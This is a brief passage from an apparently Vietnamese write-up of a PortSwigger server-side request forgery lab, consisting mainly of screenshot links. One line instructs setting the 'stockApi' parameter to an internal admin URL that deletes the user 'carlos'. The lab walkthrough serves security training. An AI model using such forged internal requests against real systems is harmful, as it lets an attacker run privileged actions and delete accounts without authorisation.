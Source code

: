 ![img](https://github.com/DucThinh47/PortSwigger/blob/main/Server-side-vulnerabilities/images/image71.png?raw=true)

Thay giá trị tham số `stockApi` thành `http://192.168.0.55:8080/admin/delete?username=carlos`:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Server-side-vulnerabilities/images/image72.png?raw=true)
